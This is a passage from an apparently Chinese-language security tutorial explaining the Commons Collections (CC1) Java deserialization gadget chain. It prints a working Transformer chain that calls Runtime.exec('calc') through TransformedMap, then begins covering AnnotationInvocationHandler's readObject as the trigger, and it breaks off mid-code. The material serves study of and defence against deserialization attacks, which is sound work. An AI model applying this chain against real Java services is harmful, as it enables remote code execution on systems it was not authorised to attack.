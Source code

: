 ```java
```

![img](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210923180657.png)

最后画个图理解一下整个链...
完整的代码是

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},
                new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers) ;

Map innerMap = new HashMap() ;
innerMap.put("name", "666") ;
Map outerMap = TransformedMap.decorate(innerMap,null,chain) ;

Map.Entry elEntry = (Map.Entry) outerMap.entrySet().iterator().next() ;
elEntry.setValue("test") ;
```

![img](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210923180723.jpg)

## 0x03.AnnotationInvocationHandler触发反序列化

在明白TransformedMap利用链后，我们需要找到某个类，进行了反序列化操作，并且有对Map进行setValue的操作，而Map需要我们可控
来看AnnotationInvocationHandler类

位于

```
sun.reflect.annotation.AnnotationInvocationHandler
```

来看他的构造方法，无法在不同包调用，所以获取对象需要使用到反射的暴破(可以直接在外部调用或设置私有属性）

```java
//一个注解类型参数,需要我们传入一个注解类型
//一个Map类型参数，而这个Map正好我们可控
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    this.type = var1; 
    this.memberValues = var2;
}
```

该类重写了readObject方法，在反序列化该对象时会调用

```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
    var1.defaultReadObject();
    AnnotationType var2 = null;
    try {
        var2 = AnnotationType.getInstance(this.type);
    } catch (IllegalArgumentException var9) {
        return;
    }
    Map var3 = var2.memberTypes(); //会返回一个注解元素的键值对
    Iterator var4 = this.memberValues.entrySet().iterator(); //获取Map集合迭代器进行循环，这里跟流程图中的步骤是相同的
    while(var4.hasNext()) {
        Entry var5 = (Entry)var4.next();
        String var6 = (String)var5.getKey(); //获取对应的Key名
```